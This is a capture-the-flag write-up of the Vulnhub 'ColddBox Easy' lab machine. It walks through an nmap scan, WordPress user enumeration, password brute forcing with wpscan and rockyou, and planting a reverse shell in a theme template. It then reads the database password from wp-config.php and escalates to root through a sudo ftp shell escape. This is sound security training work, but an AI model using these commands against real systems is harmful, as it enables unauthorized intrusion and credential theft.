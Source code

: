 ```yaml
---
title: Vulnhub - ColddBox Easy
description: My writeup on ColddBox Easy box.
categories:
 - vulnhub
tags: vulnhub wordpress wpscan
---
```


![](https://i.imgur.com/Zf32sKS.png)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **ColddBox**  | 
| Series :      | **ColddBox**         |
| Difficulty :  | **Easy**             |   
| Release Date :| **23 Oct 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [C0ldd](https://twitter.com/@C0ldd__){:target="_blank"}     | 
| Download :    | [ColddBox](https://www.vulnhub.com/entry/colddbox-easy,586/){:target="_blank"}      | 

## Summary

Hello all! Finally i found the time to do some CTF! :smile: This one was a very very very easy box based on wordpress stuff, a good box for warmup. We start by running a wpscan scan and we discover 3 users & we run a brute force on them using the rockyou wordlist. This way we get a shell as www-data. Privesc to root is simple we can exploit multiple stuff. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.15                                                                                                                                                                130 ↵
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-25 23:54 EET
Nmap scan report for colddbox-easy.zte.com.cn (192.168.1.15)
Host is up (0.00028s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
4512/tcp open  unknown
MAC Address: 08:00:27:5A:F4:E8 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.42 seconds
$ nmap -p 80,4512 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-25 23:54 EET
Nmap scan report for colddbox-easy.zte.com.cn (192.168.1.15)
Host is up (0.00061s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
```

Once we visit the website, we can see a wordpress site:

![](https://i.imgur.com/EftMppU.png)

Let's run a `wpscan` on it, we can see there are no plugins but 3 users:

```
$ wpscan --no-banner --url http://$ip/ -e ap,u
..data..

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Of course we will continue with a brute force on them using the `rockyou` wordlist:

```
$ wpscan --no-banner --url http://$ip/ -U philip,c0ldd,hugo -P /usr/share/wordlists/rockyou.txt                                                            130 ↵
..data..

[+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - c0ldd / 9876543210                                                                                                                                     
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210
```

Perfect we can login in as `c0ldd:9876543210`

## Shell as www-data

Follow my steps now for a reverse shell:

Once we login into the admin panel `/wp-admin` we have to move under appearance -> editor:

![](https://i.imgur.com/bKuLosB.png)

We click on `404.php` template and we paste our reverse shell & then click update file.

![](https://i.imgur.com/hgWbd53.png)

Now for execution we need the path, which is `/wp-content/themes/twentyfifteen/404.php` & We have shell back:

```
$ nc -lvp 5555                                                                                                                                             127 ↵
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as c0ldd

We have to check the `wp-config.php` for the DB_PASSWORD:

```
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php | grep "DB_PASSWORD"
define('DB_PASSWORD', 'cybersecurity');
www-data@ColddBox-Easy:/var/www/html$ su - c0ldd
Password: cybersecurity

c0ldd@ColddBox-Easy:~$ whoami;id
c0ldd
uid=1000(c0ldd) gid=1000(c0ldd) grupos=1000(c0ldd),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## Shell as root

There are lot of ways to gain a root shell, if you're beginner you should try to exploit them all it's a great practise. I'll use the `sudo -l` way to exploit ftp.

```
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: cybersecurity

Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:~$ sudo ftp
ftp> !/bin/bash
root@ColddBox-Easy:~# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root)
```


## Reading the flag(s)

```
root@ColddBox-Easy:/root# base64 -d root.txt ; printf "\n"
¡Felicidades, máquina completada!
root@ColddBox-Easy:/root# base64 -d /home/c0ldd/user.txt ; printf "\n"
Felicidades, primer nivel conseguido!
```

No idea what this means, one sec let me translate :P

`root.txt -> Cheers, machine completed!`

`user.txt -> Cheers, first level achieved!`

Great.

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"} :blush:

Until next time keep pwning hard! :fire:
